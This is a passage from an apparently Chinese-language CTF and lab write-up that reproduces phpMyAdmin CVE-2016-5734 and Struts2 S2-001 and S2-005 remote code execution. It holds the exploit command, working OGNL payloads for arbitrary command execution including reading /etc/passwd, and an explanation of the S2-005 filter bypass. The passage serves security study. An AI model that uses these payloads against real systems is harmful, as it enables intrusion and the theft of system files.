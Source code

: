 ```python
```
进行命令执行：`python cve-2016-5734.py -c 'system(id);' -u root -p root -d test http://node3.buuoj.cn:28884`
![](https://img-blog.csdnimg.cn/20200528132530877.png)
成功执行命令，但不知道为何我在windows上执行就出错，难受呀

参考：[phpMyAdmin 4.0.x—4.6.2 远程代码执行漏洞（CVE-2016-5734）](https://github.com/vulhub/vulhub/blob/master/phpmyadmin/CVE-2016-5734/README.zh-cn.md)
### [struts2]
[Struts2 漏洞简单汇总](https://www.sec-note.com/2018/01/09/Struts2-xxx/)
[Struts2 全版本漏洞利用复现 (长期更新)](https://soapffz.com/sec/532.html)
#### [struts2]s2-001
>该漏洞因为用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 %{value} 进行解析，然后重新填充到对应的表单数据中。例如注册或登录页面，提交失败后端一般会默认返回之前提交的数据，由于后端使用 %{value} 对提交的数据执行了一次 OGNL 表达式解析，所以可以直接构造 Payload 进行命令执行

首先测试是否存在漏洞：`%{1+1}`
![](https://img-blog.csdnimg.cn/20200521235836922.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
发现变为2，那么直接使用payload
**获取tomcat执行路径：**
`%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}`
![](https://img-blog.csdnimg.cn/20200522000507701.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
**获取Web路径：**
```c
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```
![](https://img-blog.csdnimg.cn/2020052200054912.png)
**执行任意命令**(命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`)
```c
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"ls"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
![](https://img-blog.csdnimg.cn/20200522000643801.png)
参考文章：
[tdcoming：S2-001 远程代码执行漏洞](https://blog.csdn.net/qq_29647709/article/details/84945159)
[S2-001 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-001/README.zh-cn.md)

#### [struts2]s2-005
影响版本: 2.0.0 - 2.1.8.1

>s2-005漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为OGNL语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

XWork会将GET参数的键和值利用OGNL表达式解析成Java语句，如：
```
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//会被转化成
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
```
触发漏洞就是利用了这个点，再配合OGNL的沙盒绕过方法，组成了S2-003。官方对003的修复方法是增加了安全模式（沙盒），S2-005在OGNL表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：
